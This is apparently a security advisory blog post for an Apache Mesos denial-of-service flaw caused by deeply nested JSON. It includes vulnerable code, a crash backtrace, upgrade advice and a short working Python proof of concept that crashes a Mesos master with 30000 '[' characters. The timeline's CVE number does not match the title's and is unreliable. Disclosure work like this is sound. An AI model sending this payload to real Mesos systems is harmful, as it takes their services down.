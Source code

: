 ```yaml
---
layout: post
title: "CVE-2018-11793: Apache Mesos Denial of Service Vulnerability"
---
```


A vulnerability in the JSON parser used by Apache Mesos allows a remote
attacker to cause a crash in any Mesos component that parses JSON.

The impact of this bug is most likely denial-of-service against Apache Mesos
but may result in remote code execution in some circumstances.

# Affected Versions

Apache Mesos 1.4.0 to 1.7.0. The unsupported Apache Mesos pre-1.4.0 releases
may be also affected.

# Description

The JSON parser in `3rdparty/stout/include/stout/json.hpp` uses the PicoJSON
library internally to parse JSON values.

```c++
904  const char* parseEnd;
905  try {
906    parseEnd =
907      picojson::parse(value, parseBegin, parseBegin + s.size(), &error);
908  } catch (const std::overflow_error&) {
909    return Error("Value out of range");
910  } catch (...) {
911    return Error("Unknown JSON parse error");
912  }
```

PicoJSON does not handle deeply nested JSON structures well as parses the
JSON recursively which eventually blows the stack.

A typical stack trace at the time of the crash will be as follow:

```shell
gef➤  bt
#0  0x00007fffe98eabbc in _int_malloc (av=av@entry=0x7fffc0000020, bytes=bytes@entry=0x18) at malloc.c:3353
#1  0x00007fffe98ed184 in __GI___libc_malloc (bytes=0x18) at malloc.c:2913
#2  0x00007fffea0f3e78 in operator new(unsigned long) () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#3  0x00007ffff3961608 in picojson::value::value (this=0x7fffe04d5140, type=0x4) at ../3rdparty/picojson-1.3.0/picojson.h:178
#4  0x00007ffff39621f4 in picojson::default_parse_context::parse_array_start (this=0x7fffe04d52c0) at ../3rdparty/picojson-1.3.0/picojson.h:848
#5  0x00007ffff396f094 in picojson::_parse_array<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:687
#6  0x00007ffff396cb23 in picojson::_parse<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:762
#7  0x00007ffff3971023 in picojson::default_parse_context::parse_array_item<char const*> (this=0x7fffe04d5440, in=...) at ../3rdparty/picojson-1.3.0/picojson.h:855
#8  0x00007ffff396f0ee in picojson::_parse_array<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:695
#9  0x00007ffff396cb23 in picojson::_parse<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:762
#10 0x00007ffff3971023 in picojson::default_parse_context::parse_array_item<char const*> (this=0x7fffe04d55c0, in=...) at ../3rdparty/picojson-1.3.0/picojson.h:855
#11 0x00007ffff396f0ee in picojson::_parse_array<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:695
#12 0x00007ffff396cb23 in picojson::_parse<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:762
#13 0x00007ffff3971023 in picojson::default_parse_context::parse_array_item<char const*> (this=0x7fffe04d5740, in=...) at ../3rdparty/picojson-1.3.0/picojson.h:855
#14 0x00007ffff396f0ee in picojson::_parse_array<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:695
#15 0x00007ffff396cb23 in picojson::_parse<picojson::default_parse_context, char const*> (ctx=..., in=...) at ../3rdparty/picojson-1.3.0/picojson.h:762
```

While the JSON parser is widely used throughout Mesos, its usage in
`src/master/http.cpp` can be exploited by a remote attacker to cause a denial
of service.

```c++
660  } else if (contentType.get() == APPLICATION_JSON) {
661    Try<JSON::Value> value = JSON::parse(request.body);
```

# Proof of Concept

The following Python script will crash the Apache Mesos master process to
crash.

The number of `[`'s required to trigger the crash depends on the stack limits
of the system the Mesos process is running on. However, this poses no practical
limitations when it comes to exploitation since a HTTP request body can be
megabytes in length.

```python
import requests

HOST = "http://127.0.0.1:5050/api/v1"

def main():
    payload = "[" * 30000
    requests.post(HOST, data=payload,
                  headers={"Content-Type": "application/json"})


if __name__ == "__main__":
    main()
```

# Mitigation

Apache Mesos user's should be upgraded to a patched version. The following is
the official recommendation from the Apache Mesos team.

```shell
pre-1.4.x users should upgrade to at least 1.4.3
1.4.x users should upgrade to 1.4.3
1.5.x users should upgrade to 1.5.2
1.6.x users should upgrade to 1.6.2
1.7.0 users should upgrade to 1.7.1
1.8-dev users should obtain Mesos 1.8.0 or later
```

# Credits

This issue was discovered by Ayrx.

# Timeline

* 03 May 2018 - Vulnerability discovered.
* 03 May 2018 - Vulnerability reported to the vendor.
* 19 Sep 2018 - Vulnerability fixed by vendor in `master`. CVE-2018-7889
assigned.
* 04 Mar 2019 - New release of Apache Mesos with fix applied. Public disclosure
of the vulnerability.
